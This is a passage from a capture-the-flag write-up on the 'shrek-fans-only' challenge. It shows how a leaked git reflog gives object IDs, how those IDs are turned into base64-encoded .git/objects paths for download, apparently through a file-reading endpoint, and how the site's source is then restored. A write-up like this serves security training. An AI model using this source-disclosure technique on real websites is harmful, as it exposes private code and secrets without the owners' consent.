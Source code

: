 ```
Content-Length: 839
Connection: close
Content-Type: image/jpg

0000000000000000000000000000000000000000 759be945739b04b63a09e7c02d51567501ead033 Shrek <shrek@shrek.com> 1583366532 +0000	commit (initial): initial commit
759be945739b04b63a09e7c02d51567501ead033 976b625888ae0d9ee9543f025254f71e10b7bcf8 Shrek <shrek@shrek.com> 1583366704 +0000	commit: remove flag
976b625888ae0d9ee9543f025254f71e10b7bcf8 d421c6aa97e8b8a60d330336ec1e829c8ffd7199 Shrek <shrek@shrek.com> 1583367714 +0000	commit: added more stuff
d421c6aa97e8b8a60d330336ec1e829c8ffd7199 759be945739b04b63a09e7c02d51567501ead033 Shrek <shrek@shrek.com> 1583367723 +0000	checkout: moving from master to 759be945739b04b63a09e7c02d51567501ead033
759be945739b04b63a09e7c02d51567501ead033 d421c6aa97e8b8a60d330336ec1e829c8ffd7199 Shrek <shrek@shrek.com> 1583367740 +0000	checkout: moving from 759be945739b04b63a09e7c02d51567501ead033 to master
```

These IDs are used to name files in the local repository. So the following objects can be identified and downloaded:
* `.git/objects/75/9be945739b04b63a09e7c02d51567501ead033` base64 encoded is `LmdpdC9vYmplY3RzLzc1LzliZTk0NTczOWIwNGI2M2EwOWU3YzAyZDUxNTY3NTAxZWFkMDMz`;
* `.git/objects/97/6b625888ae0d9ee9543f025254f71e10b7bcf8` base64 encoded is `LmdpdC9vYmplY3RzLzk3LzZiNjI1ODg4YWUwZDllZTk1NDNmMDI1MjU0ZjcxZTEwYjdiY2Y4`;
* `.git/objects/d4/21c6aa97e8b8a60d330336ec1e829c8ffd7199` base64 encoded is `LmdpdC9vYmplY3RzL2Q0LzIxYzZhYTk3ZThiOGE2MGQzMzAzMzZlYzFlODI5YzhmZmQ3MTk5`;
* `.git/objects/75/9be945739b04b63a09e7c02d51567501ead033` base64 encoded is `LmdpdC9vYmplY3RzLzc1LzliZTk0NTczOWIwNGI2M2EwOWU3YzAyZDUxNTY3NTAxZWFkMDMz`;
* `.git/objects/d4/21c6aa97e8b8a60d330336ec1e829c8ffd7199` base64 encoded is `LmdpdC9vYmplY3RzL2Q0LzIxYzZhYTk3ZThiOGE2MGQzMzAzMzZlYzFlODI5YzhmZmQ3MTk5`.

At this point you can try to restore the source code.

```
m3ssap0@foo  ~/shrek-fans-only (master)
$ git checkout -- .
error: unable to read sha1 file of getimg.php (c9566ff84d2e1ae3339bc1e6303d6d3340b5789f)
error: unable to read sha1 file of img1.jpg (0e8104f51db8f9ee08f0966656a3c2307e6cde5c)
error: unable to read sha1 file of index.php (5ab449745b9c25fb0b56c5fbab8d0c986541233e)
```

You can't perform the operation, but you have just discovered the missing objects IDs that can be downloaded:
* `.git/objects/c9/566ff84d2e1ae3339bc1e6303d6d3340b5789f` base64 encoded is `LmdpdC9vYmplY3RzL2M5LzU2NmZmODRkMmUxYWUzMzM5YmMxZTYzMDNkNmQzMzQwYjU3ODlm`;
* `.git/objects/0e/8104f51db8f9ee08f0966656a3c2307e6cde5c` base64 encoded is `LmdpdC9vYmplY3RzLzBlLzgxMDRmNTFkYjhmOWVlMDhmMDk2NjY1NmEzYzIzMDdlNmNkZTVj`;
* `.git/objects/5a/b449745b9c25fb0b56c5fbab8d0c986541233e` base64 encoded is `LmdpdC9vYmplY3RzLzVhL2I0NDk3NDViOWMyNWZiMGI1NmM1ZmJhYjhkMGM5ODY1NDEyMzNl`.

Now you can correctly restore the source code files.

```
m3ssap0@foo  ~/shrek-fans-only (master)
$ git checkout -- .

m3ssap0@foo  ~/shrek-fans-only (master)
$ ls
getimg.php  img1.jpg  index.php
```
